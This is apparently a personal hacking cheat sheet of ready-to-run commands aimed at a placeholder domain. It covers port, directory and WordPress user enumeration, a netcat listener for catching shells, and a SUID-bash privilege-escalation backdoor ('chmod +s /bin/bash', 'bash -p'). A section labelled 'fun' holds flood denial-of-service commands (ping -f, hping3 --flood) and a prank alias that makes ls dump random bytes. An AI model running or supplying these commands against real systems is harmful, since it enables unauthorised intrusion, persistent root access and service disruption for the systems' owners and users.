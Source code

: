 # Hacking Stuff

------------------------------------------------------- 
                      # RECON STUFF
------------------------------------------------------- 

rustscan -a domain.com

urlfinder -d domain.com

nikto -h domain.com

amass enum -d domain.com

curl -i domain.com
whois domain.com
whatweb domain.com

sudo nmap -sS -sV -T4 domain.com

gobuster dir -u domain.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

gobuster dir -u domain.com -w /usr/share/seclists/



sublist3r -d domain.com


tshark -Y'http.request.method == "GET" -i eth0


wpscan --url domain.com --enumerate u
wpscan --url domain.com --enumerate vp,vt --plugins-detection

nc -lvnp 1234



sudo chmod +s /bin/bash
bash -p




------------------------------------------------------- 
                      # FUN STUFF
------------------------------------------------------- 

ping -s 1300 -f domain.com

hping3 -S -V --flood domain.com

hping3 --traceroute -V -1 domain.com

cat /dev/urandom
alias ls="cat /dev/urandom"


